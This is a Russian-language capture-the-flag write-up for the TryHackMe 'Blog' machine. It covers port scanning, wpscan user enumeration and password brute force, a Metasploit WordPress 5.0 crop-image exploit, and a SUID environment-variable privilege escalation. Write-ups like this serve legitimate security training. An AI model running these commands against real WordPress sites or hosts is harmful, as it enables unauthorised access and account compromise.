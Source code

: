 # Blog

:white_check_mark:  [**Wpscan user enum**](#wpscan_user)

:white_check_mark: [**Wpscan pass brute**](#wpscan_pass)

:white_check_mark: [**Wordpress 5.0 Crop-image**](#crop_image)

:white_check_mark: [**Getenv(privesc)**](#getenv)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV blog.thm
```

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
|_http-generator: WordPress 5.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-server-header: Apache/2.4.29 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2022-04-26T17:11:44
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2022-04-26T17:11:44+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
```

Главная страница сайта:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/1.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/2.png)

Видим что сайт работает на wordpress версии 5.0

Проверим директорию /wp-admin/

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/3.png)

<a name="wpscan_user"></a>

Соберем информацию использую **wpscan**:
```
wpscan --url http://blog.thm --enumerate u
```

Получаем имена пользователей

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/4.png)

<a name="wpscan_pass"></a>

Попробуем сбрутить пароль для пользователя kwheel:
```
wpscan --url blog.thm --passwords /usr/share/wordlists/rockyou.txt --usernames kweel
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/5.png)

<a name="crop_image"></a>

Посмотрим существующие эксплоиты для wordpress 5.0
```
searchsploit wordpress 5.0
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/6.png)

Видим эксплоит, который можно запустить через metasploit. Запускаем metasploit комадой **msfconsole**.

Найдем по названию нужный нам эксплоит и выберем его для использования. Просмотрим, какие параметры нужны эксплоиту.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/7.png)

Выставм нужные параметры.
```
set PASSWORD <password>
set USERNAME <username>
set RHOSTS <ip_of_victim_machine>
set LHOST <ip_of_our_machine>
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/8.png)

Запускаем эксплоит и получаем доступ к машине:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/9.png)

Находим первый флаг в директории **/home/bjoel**, но увы, нам говорят, что он находится в другом месте. Также мы видим другой файл Billy_Joel_Termination_May20-2020.pdf. Скачаем его командой **download** Billy_Joel_Termination_May20-2020.pdf.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/10.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/11.png)

Попробуем командой **find** найти первый флаг:
```
find / -type f -name user.txt 2>/dev/null
```

Файл находится в директории /media/usb, к которой мы не имеем доступа.

Попробуем найти файлы с битом SUID.
```
find / -perm -u=s 2>/dev/null
```

<a name="getenv"></a>

Находим странный файл /usr/sbin/checker. Это скомпилированный файл, поэтому качаем его на свою машину и попробуем зареверсить. Сделав это, получаем следующий код.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/12.png)

Мы видим что некая переменная ищет переменную окружения admin и если ее нет, то говорит "Not an Admin". Добавим переменную окружения admin командой:
```
export admin=123
```
Затем запустим программу и получим рута, после чего, мы сможем получить оба флага.
